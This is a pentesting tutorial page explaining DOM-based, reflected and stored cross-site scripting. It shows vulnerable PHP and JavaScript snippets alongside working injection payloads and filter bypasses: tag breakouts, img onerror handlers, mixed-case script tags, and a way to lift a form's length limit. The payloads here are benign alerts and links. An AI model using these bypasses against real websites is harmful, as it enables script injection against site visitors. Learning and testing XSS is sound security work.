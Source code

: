 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Cross-Site Scripting

Also known as XSS scripting, it allows the execution of malicious code of JavaScript or any client-side language. We can find different types of XSS scripting:

## <mark style="color:blue;">DOM-based</mark>

The vulnerability is in the client-side code, where the browser’s Document Object Model (DOM), the one handled by HTML, is manipulated to execute untrusted scripts.

We can find a typical example of this vulnerability as follows:

* The URL shows changes in a parameter

<pre class="language-html" data-title="Example Case" data-overflow="wrap" data-line-numbers><code class="lang-html">&#x3C;!-- We select language in a slider and is reflected on url -->
http://url/?language=en

&#x3C;!-- Check html of the page for script tags and document.write() functions-->
...
&#x3C;select name="default">
<strong>  &#x3C;script>
</strong><strong>  ...
</strong>    document.write("&#x3C;option value='"+lang+"'>"+decodeURI(lang) + "&#x3C;/option>");
  ...
  &#x3C;/script>
&#x3C;/select>
...

&#x3C;!-- Use '> to close the "value" parameter and then close tags -->
http://url/?default='>&#x3C;/option>&#x3C;/select>   
&#x3C;!-- We will see all options of the slider are now displayed on screen -->

<strong>&#x3C;!-- Then we can create any tag to insert HMTL code-->
</strong>http://url/?default='>&#x3C;/option>&#x3C;/select>&#x3C;h1>HACKED&#x3C;/h1>

&#x3C;!-- We can even abuse this to inject JS code -->
http://url/?default='>&#x3C;/option>&#x3C;/select>&#x3C;script>if(window.confirm('HACKED\nTRY TO CALL FOR HELP?')){window.open('https://www.youtube.com/watch?v=dQw4w9WgXcQ');};&#x3C;/script>
</code></pre>

***

* In some cases, it will not work directly, so we can check the page code to see the conditions of the input

{% tabs %}
{% tab title="Case 1" %}
Sometimes the script tag will be filtered

{% code title="Example source code" %}
```php
...
if (stripos ($default, "<script") !== false) {
...
```
{% endcode %}

This could be bypassed using a `img` tag and then putting a bad `src` value which will cause an error. After that, we can handle it with the `onerror` parameter that lets us insert _JS_ Code

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/?default='></option></select><img src=x onerror='alert("HACKED")'/>
```
{% endcode %}
{% endtab %}

{% tab title="Case 2" %}
Sometimes the input will be filtered with specific values

{% code title="Example source code" %}
```php
...
switch ($_GET['default']) { 
    case "French": 
    case "English":
...
```
{% endcode %}

This could be bypassed using any of these values at the start of the sentence, and then using a `&` to concatenate the payload of the injection

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/?default=English&'></option></select><script>alert("HACKED")</script>
```
{% endcode %}
{% endtab %}
{% endtabs %}

## <mark style="color:blue;">Reflected</mark>

The vulnerability occurs when the parameters inputted by the client, are displayed on the screen of the page when the site processes a request.

We can find typical examples of this vulnerability as follows:

* When a parameter is sent in a query of the URL or a formulary, and this value is shown on the page content

<pre class="language-bash" data-overflow="wrap" data-line-numbers data-full-width="false"><code class="lang-bash">#We do a petition and the site returns "Hello" in any part of the HTML
curl http://$url/?msg=$value 
# Then we could try to inject code
<strong>curl http://url/?msg=&#x3C;script>alert("HACKED")&#x3C;/script>
</strong>
#Or when we insert a value in a form and the site returns it in any part of the HTML, we could fill the form with code to inject
&#x3C;script>alert("HACKED")&#x3C;/script>
</code></pre>

***

* In some cases, it will not work directly, so we can check the page code to see the conditions of the input.

{% tabs %}
{% tab title="Case 1" %}
Sometimes the script tag will be filtered

{% code title="Example source code" %}
```php
...
$name = str_replace( '<script>', '', $_GET[ 'name' ] );
...
```
{% endcode %}

This could be bypassed by using capital letters on the tag values or using other symbols to evade filtering

{% code overflow="wrap" lineNumbers="true" %}
```bash
<sCrIpT>alert("HACKED")</script>
<s|script>alert("HACKED")</script>
```
{% endcode %}
{% endtab %}

{% tab title="Case 2" %}
If that still doesn't work, we can use a `img` tag, and then put a bad `src` value which will cause an error. After that, we can handle it with the `onerror` parameter that lets us insert _JS_ Code

<pre class="language-bash"><code class="lang-bash"><strong>&#x3C;img src=x onerror='alert("HACKED")'/>
</strong></code></pre>
{% endtab %}
{% endtabs %}

## <mark style="color:blue;">Stored</mark>

The vulnerability occurs when the input of values is saved by the web and displayed to anyone who browses the site. In the same way, malicious code will remain globally on the website.

We can find a typical example of this vulnerability as follows:

* We find a list of entries, and we see a formulary that inputs fill those entries globally on the page

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
#We insert names and comments in the formulary.
#Then we could fill the form to inject malicious code and show it to any other user that browse the website
<a href="https://www.youtube.com/watch?v=dQw4w9WgXcQ">CLICK HERE TO WIN A PRIZE</a>
```
{% endcode %}

{% hint style="info" %}
If we encounter a limitation on the length of the input, we can right-click the form space, go to _Inspect,_ and modify the `maxlength` value
{% endhint %}

